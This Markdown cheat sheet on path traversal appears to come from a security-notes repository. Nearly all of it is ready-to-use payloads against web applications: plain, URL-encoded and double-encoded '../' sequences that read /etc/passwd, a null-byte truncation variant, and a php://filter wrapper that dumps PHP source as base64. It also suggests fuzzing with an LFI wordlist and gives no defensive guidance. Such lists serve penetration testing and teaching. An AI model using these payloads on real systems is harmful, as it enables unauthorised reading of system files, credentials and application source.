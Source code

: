 ```yaml
---
title: Path Traversal
description: Vulnerability allowing attacker to access files and directories of a system
---
```

## Exploit
### Basic
```bash
../../../etc/passwd
```

### Encoded
```bash
/%2e%2e%2f%2e%2e%2f%2e%2e/etc/passwd
```

### Double encoded
```bash
%252e%252e%252f%252e%252e%252fetc%252fpasswd
```
### Hard-coded path
```bash
/var/www/images/../../../etc/passwd
```

### Null byte
Append `%00`,  character following null byte will be ignored
```bash
../../../../../passwd%00
```

### PHP
```bash
php://filter/read=convert.base64-encode/resource=index.php
```
### Fuzzing
Fuzz using `LFI-Jhaddix.txt` wordlist

## Resources
-  [LFI/RFI payloads ](https://exploit-notes.hdks.org/exploit/web/security-risk/file-inclusion/)